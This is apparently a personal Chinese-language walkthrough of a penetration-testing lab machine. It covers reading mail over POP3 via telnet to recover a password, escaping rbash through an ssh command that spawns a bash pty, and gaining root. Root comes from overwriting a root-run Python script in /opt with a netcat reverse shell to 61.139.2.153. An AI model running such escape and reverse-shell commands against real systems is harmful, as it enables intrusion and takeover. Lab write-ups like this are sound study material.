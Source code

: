 ## telnet
现在全部改完密码 挨个登录110端口检查有无重要信息

#注意 telnet的一些命令
```
user 用户名
pass 密码
list
retr 邮件名
```


![image.png](https://s2.loli.net/2025/05/02/KLvjbuFZD9ImrP1.png)


发现是mindy和john的对话 优先检查这两个邮件 获得了mindy的账户密码

用这个密码成功登录ssh

## ssh登录
发现是一个rbash 被限制了

## rbash逃逸
先看看环境变量
```
env
printenv
```

![image.png](https://s2.loli.net/2025/05/02/ROo78Zch3XrAL4G.png)

用不了

看到了ssh逃逸 但不会使用

看了wp发现原来还有这操作

```
ssh mindy@61.139.2.158  "export TERM=xterm;python -c  'import pty;pty.spawn(\"/bin/bash\")'"
```


![image.png](https://s2.loli.net/2025/05/02/MPd9foNm7zaBnUw.png)

## 逃逸成功 开始提权
还是有点依赖linpeas一点 方便查东西 

#注意 之后多一个搜索的地方 /opt

![image.png](https://s2.loli.net/2025/05/02/Jo5V6dXQCf1yPzs.png)

root权限的python脚本 我们改一下
```
echo 'import os; os.system("/bin/nc 61.139.2.153 8888 -e /bin/bash")' > /opt/tmp.py

反弹之后就是root
```
[[shell和提权#^abc63a]]
[[shell和提权#^5af79a]]
